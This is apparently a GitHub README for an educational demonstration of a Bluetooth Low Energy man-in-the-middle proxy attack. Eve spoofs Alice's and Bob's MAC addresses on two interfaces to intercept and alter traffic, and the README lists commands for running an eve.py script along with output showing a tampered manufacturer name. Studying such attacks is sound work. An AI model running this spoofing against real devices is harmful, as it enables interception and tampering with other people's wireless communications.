

# Bluetooth Low Energy MITM proxy attack

This repository contains a simple example of a Bluetooth Low Energy MITM proxy attack. It is provided for educational purposes only and without liability.

The attack is performed by Eve, who is able to intercept and modify the communication between Alice and Bob. The attack is possible due to Eve spoofing
both Alice's and Bob's MAC addresses on two different HCIs and being first to connect to Bob.



The Python library https://github.com/google/bumble is used to interact with Bluetooth HCI devices. Bumble is installed
using `python -m pip install git+https://github.com/google/bumble.git@v0.0.190`

Experiments were performed on Linux with BlueZ stack. Check available HCIs with `hciconfig -a`. Remove HCI interface
from Linux BlueZ stack, every time you want to run something with bumble: `sudo hciconfig hci0 down`

## Examples using built-in bumble commands

Scan for nearby devices:

```bash
sudo hciconfig hci0 down && sudo ./venv/bin/bumble-scan hci-socket:0
```

Bob listening for BLE connections:

```bash
sudo hciconfig hci1 down && sudo ./venv/bin/bumble-pair src/bob.json hci-socket:1 --request --mode le
```

Alice connecting to Bob:

```bash
sudo hciconfig hci0 down && sudo ./venv/bin/bumble-pair src/alice.json hci-socket:0 --mode le FA:F2:F2:F2:F2:F2
```

## Performing MITM attack using Python scripts

Bob running BLE GATT server and listening for pairings:

```bash
$ sudo hciconfig hci3 down && sudo python3 ./bob.py bob.json hci-socket:3
<<< connecting to HCI...
=== Connected to Connection(handle=0x0040, role=PERIPHERAL, self_address=FA:F2:F2:F2:F2:F2, peer_address=FA:F1:F1:F1:F1:F1)
```

Eve performing MITM attack:

```bash
$ sudo hciconfig hci4 down && sudo hciconfig hci5 down && sudo python3 ./eve.py alice.json hci-socket:4 bob.json hci-socket:5
<<< connecting to HCI used for Bob ...
<<< connecting to HCI used for Alice ...
=== Connecting to Bob FA:F2:F2:F2:F2:F2...
=== Connected to Connection(handle=0x0048, role=CENTRAL, self_address=FA:F1:F1:F1:F1:F1, peer_address=FA:F2:F2:F2:F2:F2)
=== Starting to advertise as Bob FA:F2:F2:F2:F2:F2
=== Connected to Connection(handle=0x0044, role=PERIPHERAL, self_address=FA:F2:F2:F2:F2:F2, peer_address=FA:F1:F1:F1:F1:F1)
```

Alice connecting to Bob:

```bash
$ sudo hciconfig hci0 down && sudo python3 ./alice.py alice.json hci-socket:0 FA:F2:F2:F2:F2:F2
<<< connecting to HCI...
=== Connecting to FA:F2:F2:F2:F2:F2...
=== Connected to Connection(handle=0x0001, role=CENTRAL, self_address=FA:F1:F1:F1:F1:F1, peer_address=FA:F2:F2:F2:F2:F2)
=== Client: connected to Connection(handle=0x0001, role=CENTRAL, self_address=FA:F1:F1:F1:F1:F1, peer_address=FA:F2:F2:F2:F2:F2)
Manufacturer Name:  Bob hates Alice!
```
